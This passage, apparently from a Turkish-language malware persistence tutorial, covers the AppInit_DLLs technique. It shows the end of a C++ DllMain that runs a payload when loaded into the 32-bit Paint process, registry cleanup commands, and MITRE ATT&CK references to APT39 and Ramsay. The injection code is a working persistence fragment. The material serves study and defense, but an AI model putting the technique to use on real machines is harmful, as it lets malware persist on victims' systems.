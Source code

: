 ```cpp
    if (subStr(path, (char *)"paint")) {
      runMe();
    }
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Gördüğünüz gibi, eğer mevcut süreç `paint` ise (ve `32-bit` ise), o zaman "enjekte et" :)   

![pers](./images/55/2022-05-16_10-49.png){width="80%"}    

Mükemmel! :)   

![pers](./images/55/2022-05-16_10-59.png){width="80%"}    

Deneyler bittikten sonra temizleme işlemi için:    

```powershell
reg add \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
/v LoadAppInit_DLLs /d 0
reg add \
"HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" \
/v AppInit_DLLs /t REG_SZ /f
```

![pers](./images/55/2022-05-16_11-18.png){width="80%"}    

Bu teknik yeni değildir, ancak buna dikkat etmek gerekir. Gerçek saldırılarda, bu numara genellikle [APT 39](https://attack.mitre.org/groups/G0087) gibi gruplar ve [Ramsay](https://attack.mitre.org/software/S0458/) gibi kötü amaçlı yazılımlar tarafından kullanılmıştır.    

[MITRE ATT&CK: APPInit_DLLs](https://attack.mitre.org/techniques/T1546/010/)    
[APT39](https://attack.mitre.org/groups/G0087)    
[Ramsay](https://attack.mitre.org/software/S0458/)    
[github'taki kaynak kod](https://github.com/cocomelonc/2022-05-16-malware-pers-5)    
